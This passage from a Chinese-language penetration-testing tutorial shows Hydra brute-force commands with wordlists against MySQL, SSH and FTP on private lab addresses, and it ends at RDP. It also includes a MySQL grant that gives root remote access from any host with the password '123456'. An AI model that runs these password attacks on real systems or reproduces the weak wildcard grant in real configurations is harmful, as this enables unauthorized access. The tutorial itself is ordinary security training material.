 #### （2）MySQL密码破解

数据库一般会提供一个默认的帐户，SQL Server的sa用户，MySQL的root用户，Oracle的System用户等。

假如我们现在破解mysql数据库

```
hydra -L user.txt -P pass.txt ip mysql	//目标IP:mysql端口号
```



```mysql
mysql -u root -p123456

grant all privileges on *.* to 'root'@'%' identified by '123456' ;
flush privileges;
```

![image-20240829210601560](https://image.201068.xyz/assets/25_3.漏扫工具/image-20240829210601560.png)

```bash
hydra -L usernameTop500.txt -P Pass.txt 192.168.70.14 mysql
```

![image-20240829210917374](https://image.201068.xyz/assets/25_3.漏扫工具/image-20240829210917374.png)

#### （3）ssh密码破解

```
hydra -l 用户名 -P 密码字典 -t 线程 -vV -e nsr ip ssh

hydra -l 用户名 -P 密码字典 -t 线程 -o save.log -vV ip ssh
```



```
hydra -l root -P Pass.txt -t 4 -vV -e nsr -f 192.168.70.4 ssh
```

#### （4）破解ftp

```
hydra ip ftp -l 用户名 -P 密码字典 -t 线程数(默认16) –vV
```

如果你发现目标ftp并不是在21端口，而是在其他端口上，可以使用-s参数指定正确的端口，其他服务同样如此。

![image-20240829221728201](https://image.201068.xyz/assets/25_3.漏扫工具/image-20240829221728201.png)

```bash
hydra  -l admin -P Pass.txt -t 3 –vV -f 192.168.70.10 ftp
```

![image-20240829221307682](https://image.201068.xyz/assets/25_3.漏扫工具/image-20240829221307682.png)

#### （5）破解rdp

如果不支持rdp模块，尝试升级一下 
